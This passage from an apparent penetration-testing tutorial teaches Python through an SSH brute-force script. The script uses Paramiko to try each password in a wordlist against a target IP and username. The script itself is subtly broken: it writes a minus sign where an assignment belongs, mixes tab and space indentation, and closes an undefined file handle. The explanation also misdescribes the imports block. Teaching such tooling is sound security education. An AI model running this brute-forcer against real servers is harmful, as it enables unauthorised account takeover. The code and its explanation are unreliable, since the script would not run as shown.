As a penetration tester, your usage of programming languages will be different than that of developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to. 

By now, we should be familiar with the function `try` and `except` syntax. This script has to be one new feature, `def`. 

`Def` allows us to create custom functions as seen below. The `ssh_connect` function is not native to Python but built using `Paramiko` and the `paramiko.SSHClient()` function.

```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password - line.strip()

        try:
            response = ssh_connect(password)

			if response == 0:
			    print('password found: ' + password)
			    exit(0)
			elif response == 1:
			    print('no luck')
		except Exception as e:
		    print(e)
		pass

input_file.close()
```

> Reading the code, we notice several distinct components.

**Imports**: This block will request input from the user. As discussed earlier, we will need ***Paramiko*** to interact with the SSH server on the target system. `Sys` and `os` will provide us with the basic functionalities needed to read a file from the operating system (our password list in this case). As we are using Paramiko to communicate with the SSH server, we do not need to import "socket".
